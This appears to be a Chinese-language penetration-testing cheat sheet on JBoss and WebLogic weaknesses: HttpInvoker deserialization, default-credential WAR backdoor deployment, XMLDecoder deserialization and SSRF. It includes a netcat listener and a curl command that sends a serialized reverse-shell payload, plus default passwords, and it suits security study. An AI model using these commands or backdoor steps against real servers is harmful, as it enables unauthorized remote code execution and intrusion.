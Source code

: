 原理：存在于 Jboss 的 HttpInvoker 组件中的 ReadOnlyAccessFilter过滤器中。该过滤器在没有进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，从而导致了攻击者可以在服务器上执行任意代码。

漏洞验证

访问/invoker/readonly，返回500，说明此页面存在反序列化漏洞

过程：

开两个终端，一个进行监听（nc -lvnp 12345），另一个发payload

curl http://192.168.50.169:8080/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser

（@不能省略）

最后，成功反弹shell

### （2）  弱口令+war后门文件部署

原理：admin/admin弱口令登录后台，点击add a new resource上传war包，连马即可

防御：改强密码；删除admin-console页面

## weblogic

### （1）  弱口令+war后门文件部署

原理：通过弱口令（weblogic/Oracle@123）登录管理台后，点击部署，安装，上传war包

### （2）  反序列化

原理：Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。

### （3）  SSRF漏洞

原理：Oracle WebLogic Web Server既可以被外部主机访问，同时也允许访问内部主机。

过程：比如有一个jsp页面SearchPublicReqistries.jsp，我们可以利用它进行攻击，未经授权通过weblogic server连接任意主机的任意TCP 端口，可以能冗长的响应来推断在此端口上是否有服务在监听此端口，进而攻击内网中redis、fastcgi等脆弱组件。


